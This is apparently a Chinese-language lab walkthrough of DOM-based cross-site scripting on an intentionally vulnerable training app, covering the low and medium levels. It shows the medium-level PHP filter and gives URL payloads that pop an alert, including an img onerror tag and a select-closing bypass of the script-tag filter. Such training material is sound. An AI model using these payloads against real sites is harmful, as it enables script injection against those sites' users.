 <center>XSS DOMdom型xss</center>









[toc]







## XSS DOMdom型xss

> XSS DOMdom型xss









### 1. low

> 低级

```php
没有任何防护
    
<?php

# No protections, anything goes
```

```shell
# 可以直接插入前端代码
http://192.168.0.111:8000/vulnerabilities/xss_d/?default=English%3Cscript%3Ealert(/xss/)%3C/script%3E
```







### medium

> 中级

```php
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

```

> 做了过滤： stripos：stripos() 函数查找字符串在另一字符串中第一次出现的位置（不区分大小写）。
>
>  [runoob](https://www.runoob.com/php/func-string-stripos.html)

```shell
# img 做弹窗
http://192.168.0.111:8000/vulnerabilities/xss_d/?default=English%3Cimg%20src=1%20onerror=alert(/xss/)%3E

# 写入到 value 中了
<option value="English%3Cimg%20src=1%20onerror=alert(/xss/)%3E">English</option>

# 绕过 加</select>闭合这个html
http://192.168.0.111:8000/vulnerabilities/xss_d/?default=English%3C/select%3E%3Cimg%20src=1%20onerror=alert(/xss/)%3E
```







